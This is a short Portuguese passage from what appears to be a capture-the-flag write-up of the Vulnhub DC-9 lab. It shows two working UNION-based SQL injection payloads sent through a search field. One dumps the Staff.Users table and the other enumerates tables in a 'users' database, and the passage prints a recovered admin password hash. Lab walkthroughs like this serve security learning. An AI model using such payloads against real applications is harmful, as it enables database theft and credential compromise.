 ![](/assets/img/Vulnhub/DC-9/colunas-Users.png)


* Conseguimos extrair o conteudo da tabela Users. 

```bash
search=Fred' union select UserID,Username,Password,4,5,6 from Staff.Users #
```

![](/assets/img/Vulnhub/DC-9/info-Users.png)

> admin:856f5de590ef37314e7c3bdf6f8a66dc




* Agora vamos extrair as informacoes do outro db, **"users"**. Primeiramente listando as tabelas. Temos somente a tabela **UserDetails**

```bash
search=Fred' union select 1,2,3,4,5,table_name from information_schema.columns where table_schema = 'users' #
```
